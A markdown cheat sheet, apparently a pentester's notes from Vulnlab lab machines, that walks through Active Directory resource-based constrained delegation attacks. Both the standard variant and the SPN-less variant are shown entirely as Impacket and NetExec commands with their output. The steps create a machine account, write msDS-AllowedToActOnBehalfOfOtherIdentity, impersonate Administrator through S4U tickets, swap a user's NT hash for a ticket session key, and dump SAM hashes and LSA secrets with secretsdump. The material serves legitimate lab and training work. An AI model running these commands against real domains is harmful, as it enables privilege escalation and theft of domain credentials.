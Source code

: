 # RBCD
### Enumerate MachineAccountQuota
```bash
➜  nxc ldap DC01.push.vl -u kelly.hill -p '<REDACTED>' -M maq
SMB         10.10.217.5     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:push.vl) (signing:True) (SMBv1:False)
LDAP        10.10.217.5     389    DC01             [+] push.vl\kelly.hill:<REDACTED>
MAQ         10.10.217.5     389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.10.217.5     389    DC01             MachineAccountQuota: 10
```
### Create a new machine account
```bash
➜  addcomputer.py -computer-name 'MEOW$' -computer-pass 'Summer2024!' -dc-host push.vl -domain-netbios push.vl push.vl/kelly.hill:'<REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account MEOW$ with password Summer2024!.
```
### Read the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```bash
➜  rbcd.py -delegate-to 'MS01$' -dc-ip 10.10.217.5 -action 'read' 'push.vl/kelly.hill:<REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
```
### Write the attribute
```bash
➜  rbcd.py -delegate-from 'MEOW$' -delegate-to 'MS01$' -dc-ip 10.10.217.5 -action 'write' 'push.vl/kelly.hill:<REDACTED>'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] MEOW$ can now impersonate users on MS01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MEOW$        (S-1-5-21-1451457175-172047642-1427519037-3602)
```
### Obtain a ticket
```bash
➜  getST.py -spn 'cifs/MS01.push.vl' -impersonate Administrator -dc-ip 10.10.217.5 'push.vl/MEOW$:Summer2024!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
### Pass the ticket
```bash
➜  export KRB5CCNAME=Administrator.ccache
```
```
➜  secretsdump.py MS01.push.vl -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x1a2f736cde34f0733b3cc6f7ec68c413
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
...
```
# SPN-less RBCD
We can perform RBCD even if the MachineAccountQuota is set to 0
```bash
➜  nxc ldap phantom.vl -u svc_sspr -p '<REDACTED>' -M maq
SMB         10.10.123.78    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:False)
LDAP        10.10.123.78    389    DC               [+] phantom.vl\svc_sspr:<REDACTED>
MAQ         10.10.123.78    389    DC               [*] Getting the MachineAccountQuota
MAQ         10.10.123.78    389    DC               MachineAccountQuota: 0
```
### Normal RBCD
Instead of passing a machine account in the `-delegate-from` option, we pass a normal user account
```bash
➜  rbcd.py -delegate-from 'wsilva' -delegate-to 'DC$' -dc-ip '10.10.123.78' -action 'write' 'phantom.vl'/'wsilva':'P@ssw0rd'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty  
[*] Delegation rights modified successfully!  
[*] wsilva can now impersonate users on DC$ via S4U2Proxy  
[*] Accounts allowed to act on behalf of other identity:  
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
```
### Obtain a TGT through overpass-the-hash to use RC4
```bash
➜  getTGT.py -hashes :$(pypykatz crypto nt 'P@ssw0rd') 'phantom.vl'/'wsilva'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Saving ticket in wsilva.ccache
```
```bash
➜  export KRB5CCNAME=wsilva.ccache
```
### Obtain the TGT session key
```bash
➜  python3 ~/tools/windows/impacket-pr/examples/describeTicket.py wsilva.ccache | grep 'Ticket Session Key'  
[*] Ticket Session Key            : e826a54fce399da484eae4b39c3bc72a
```
### Change the controlledaccountwithoutSPN's NT hash with the TGT session key
```bash
➜  smbpasswd.py -newhashes :e826a54fce399da484eae4b39c3bc72a 'phantom.vl'/'wsilva':'P@ssw0rd'@'DC.phantom.vl'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] NTLM hashes were changed successfully.
```
### Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy
```bash
➜  python3 ~/tools/windows/impacket-pr/examples/getST.py -k -no-pass -u2u -impersonate "Administrator" -spn "cifs/DC.phantom.vl" 'phantom.vl'/'wsilva'  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation  
  
[*] Impersonating Administrator  
[*] Requesting S4U2self+U2U  
[*] Requesting S4U2Proxy  
[*] Saving ticket in Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```
### Pass the ticket
```bash
➜  export KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache
```
```
➜  secretsdump.py DC.phantom.vl -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xa08cda6a38d423ba98b6f79cf6c7880f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
....
```
# Resources
- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd
- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://www.thehacker.recipes/a-d/movement/kerberos/delegations/rbcd#rbcd-on-spn-less-users
- https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html
- https://www.youtube.com/watch?v=DH4dFwNTb9A&ab_channel=vulnlab
- https://seriotonctf.github.io/Phantom-Vulnlab/
# Vulnlab Machines/Chains
- Phantom
- Heron
- Push
- Reflection
- Bruno
